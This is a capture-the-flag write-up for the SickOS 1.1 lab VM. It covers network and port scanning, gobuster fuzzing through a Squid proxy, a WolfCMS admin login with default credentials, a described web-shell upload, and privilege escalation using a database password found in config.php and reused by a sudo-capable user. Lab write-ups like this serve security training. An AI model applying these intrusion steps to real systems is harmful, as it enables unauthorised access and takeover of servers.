



## Enumeration

### Host Discovery

Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.32_.
```Console
# arpScan.py -m 2 -r 10.0.2.0/24 
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:57:e4:53 10.0.2.3
[*] 08:00:27:48:ad:44 10.0.2.32
```
### Port Scanning

Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools). Tool reported 2 open ports.

```Console
# portScanner.py -i 10.0.2.32
[.../....] Scanning Ports: 65535
[*] Port 22 (ssh) open
[*] Port 3128 (unknown) open
```

Banner Grabbing

Let's do some banner grabbing to identify the services running on open ports.

### Banner Grabbing
- Port 22:
```Console
nc -vn 10.0.2.32 22
(UNKNOWN) [10.0.2.32] 22 (ssh) open
SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.1
```
OpenSSH 5.9p1 is running on port 22. So we can enumerate users via bruteforce.
- Port 3128:
```Console
nc -vn 10.0.2.32 3128
(UNKNOWN) [10.0.2.32] 3128 (?) open
test
HTTP/1.0 400 Bad Request
Server: squid/3.1.19
Mime-Version: 1.0
Date: Mon, 12 Sep 2022 18:18:03 GMT
Content-Type: text/html
Content-Length: 3646
X-Squid-Error: ERR_INVALID_REQ 0
Vary: Accept-Language
Content-Language: en
X-Cache: MISS from localhost
X-Cache-Lookup: NONE from localhost:3128
Via: 1.0 localhost (squid/3.1.19)
Connection: close

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>ERROR: The requested URL could not be retrieved</title>
<style type="text/css"><!-- 
 /*
 Stylesheet for Squid Error pages
 Adapted from design by Free CSS Templates
 http://www.freecsstemplates.org
 Released for free under a Creative Commons Attribution 2.5 License
...
...
...
...
...
<div id="footer">
<p>Generated Mon, 12 Sep 2022 18:18:03 GMT by localhost (squid/3.1.19)</p>
<!-- ERR_INVALID_REQ -->
</div>
</body></html>

```
Looks like a web but its a SQUID Proxy running on port 3128. So, let's scan again with the proxy active.

Let's config the proxy with foxy proxy add on. 



### Web

Now we have access to a web.

Index looks irrelevant:


Let's apply fuzzing with the proxy active:
```Console
gobuster dir -u http://10.0.2.32 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt -o fuzzing --proxy http://10.0.2.32:3128
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.32
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Proxy:                   http://10.0.2.32:3128
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/09/12 21:10:28 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 21]
/index.php            (Status: 200) [Size: 21]
/connect              (Status: 200) [Size: 109]
/robots               (Status: 200) [Size: 45] 
/robots.txt           (Status: 200) [Size: 45] 
/server-status        (Status: 403) [Size: 290]
                                                                                                                                                                                                              
===============================================================
2022/09/12 21:14:12 Finished
===============================================================

```

_Connect_ is a python script weird:
```Python
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```
Robots has a hidden directory that is a CMS named as _WolfCMS_.



## Exploitation
Browsing for information i was checking this [exploit](https://www.exploit-db.com/exploits/38000) and see that login path is _.../?/admin_, tried admin:admin and it successful. Lucky time.



You can upload a shell to _?/admin/plugin/file_manager/browse/_ and access to _/public/shell.php_

## Privilege Escalation

In _/var/www/wolfcms/config.php_ there are credentials for mysql:
```Console
cat config.php 
<?php 

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
...
...
...
```

The password is not for the root login to the system. After several itents of kernel exploiting and mysql udf, I realize that the password is for the user sickos. 

SickOs can execute all commands as root, therefore, we have the flag.
```Console
www-data@SickOs:/$ su sickos
Password: 
sickos@SickOs:/$ sudo -l
[sudo] password for sickos: 
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:/$ sudo ls /root 
a0216ea4d51874464078c618298b1367.txt
sickos@SickOs:/$ sudo cat /root/a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

